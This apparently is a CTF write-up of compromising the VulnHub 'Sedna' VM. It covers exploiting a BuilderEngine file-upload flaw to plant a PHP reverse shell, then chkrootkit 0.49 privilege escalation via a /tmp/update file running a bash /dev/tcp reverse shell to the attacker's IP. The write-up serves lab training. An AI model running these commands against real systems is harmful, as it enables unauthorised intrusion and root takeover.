 ```yaml
---
layout: post
title: PenLog - "Sedna" by VulnHub
categories: [VulnHub, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [VulnHub](https://www.vulnhub.com/)\
**Difficulty:** Medium\
**Link:** [HACKFEST2016: SEDNA](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)

## Enumeration

Run `netdiscover` to find the IP address of the VM:

```bash
$ netdiscover -i vmnet1
192.168.42.130  00:0c:29:9a:47:01      1      42  VMware, Inc.
```

Run full `nmap` port scan on the discovered target IP:
```bash
$ nmap -vv -Pn -sT -T4 -p- -n 192.168.42.130
```

This results in:

![nmap2](/images/posts/penlog_sedna_by_vulnhub/nmap2.png)

Run `DirBuster` against the target's open http port 80 using the _/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt_ wordlist and
options _Be Recursive_ switched off, and _File extension_ set to _html, php, txt_.

Note **/licence.txt** in the result; navigate to this in the browser and notice the line:

    Copyright (c) 2012 - 2015 BuilderEngine / Radian Enterprise Systems Limited.

Continuing through the `DirBuster` results, note **/finder.html**, which, when navigated to in the browser,
has the title: **elFinder 2.0**.

Searching Google, there is a **BuilderEngine** project on GitHub at [tripflex/builder-engine]() with the
description: _"Open source CMS HTML 5 website builder."_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit enginebuilder
...
```

![searchsploit](/images/posts/penlog_sedna_by_vulnhub/searchsploit_enginebuilder.png)

Download the non-Metasploit PoC with EDB ID **40390**:

```bash
$ searchsploit -m 40390
```

### 40390 Description

40390 reports EngineBuilder v3.5.0 as having a Remote Code Execution vulnerability; reading the PoC, it describes the ability to perform Arbitrary File Upload via unauthenticated, unrestricted access to a bundled jQuery File Upload plugin _/themes/dashboard/assets/plugins/jquery-file-upload_.

With this file upload capability, upload a reverse PHP shell--the website is serving PHP--to establish a low-privilege _user_ shell.

## User Shell

Copy 40390, changing the extension from _php_ to _html_:

```bash
$ cp 40390.{php,html}
```

Update the PoC's action string to instead include the target IP address:

```bash
$ diff 40390.html 40390.php
22c22
< <form method="post" action="http://192.168.42.130/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
---
> <form method="post" action="http://localhost/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
27c27
< </html>
---
> </html>
\ No newline at end of file
```

Copy _/usr/share/webshells/php/php-reverse-shell.php_ from Kali's bundled webshells and update the connect back IP address/port to be the attacking IP address/port:

![php-webshell](/images/posts/penlog_sedna_by_vulnhub/php_webshell.png)

Serve the _html_ version of 40390 locally and upload the modified _php-reverse-shell.php_:

![40390-upload](/images/posts/penlog_sedna_by_vulnhub/40390_upload.png)

As noted in the documentation, 40390 advises that the uploaded shell will be accessible via _/files_:

![files-list](/images/posts/penlog_sedna_by_vulnhub/files_list.png)

Start an `nc` lister on the port that was added to the modified _php-reverse-shell.php_:

```bash
$ nc -vnlp 4444
```

Click the _php-reverse-shell.php_ link in the browser and establish a reverse shell connection:

![user-shell](/images/posts/penlog_sedna_by_vulnhub/user_shell.png)
_(Note: "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_sedna_by_vulnhub/user_flag.png)

Lastly, upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

(After spending an hour looking at some other installed, vulnerable software, and attempting _Dirty Cow_ for this vulnerable _Linux Kernel v3.13.0-32_, I discovered a vector via `cron`.)

Upload and execute custom `cronmon.sh`:

```bash
$ cat cronmon.sh
#!/bin/bash

#IFS=$'\n'

old_process=$(ps -eo command)  # sort by command (-o)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process")
    sleep .2
    old_process=$new_process
done
```

After a while, notice `chkrootkit` in the output, running as **root**:

![chkrootkit-cron-root](/images/posts/penlog_sedna_by_vulnhub/chkrootkit_cron_root.png)

Notice path _/etc/chkrootkit_ on target (non-standard) and version string in _/etc/chkrootkit/README_:

```bash
$ cat /etc/chkrootkit/README
...
 09/30/2009 - Version 0.49  new tests: Mac OS X OSX.RSPlug.A.  Enhanced
                            tests: suspicious sniffer logs, suspicious
                            PHP files, shell history file anomalies.
                            Bug fixes in chkdirs.c, chkproc.c and
                            chkutmp.c.
```

Search for a local privilege escalation with `searchsploit` and download the non-Metasploit PoC **33899**:

![33899-chkrootkit](/images/posts/penlog_sedna_by_vulnhub/33899_chkrootkit.png)
_(Note: "ss" in the above is a bash alias for `searchsploit`.)_

### 33899 Description

33899 reports chkrootkit v0.49 as having a vulnerable function that will execute files specified in a variable due to unquoted variable assignment. The PoC goes on to describe _"Steps to reproduce"_:
- Put an executable file named 'update' in /tmp
- Run chkrootkit (as uid 0)

## Root Shell

Follow the instructions and put the file with a bash reverse shell to attacking machine:

```bash
$ echo "bash -i >& /dev/tcp/192.168.42.129/4445 0>&1" > /tmp/update
$ chmod +x /tmp/update
```

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4445 in this case):

```bash
$ nc -vnlp 4445
```

Wait for `cron` to execute `chkrootkit` as root; reading _/etc/crontab_, the root _/etc/cron.hourly_ will run every **17 min**:

![root-cron-hourly](/images/posts/penlog_sedna_by_vulnhub/root_cron_hourly.png)

After _/tmp/update_ is executed as _root_ via the `cron` call to `chkrootkit`, get the root _flag.txt_ via the established root shell:

![root-shell](/images/posts/penlog_sedna_by_vulnhub/root_shell.png)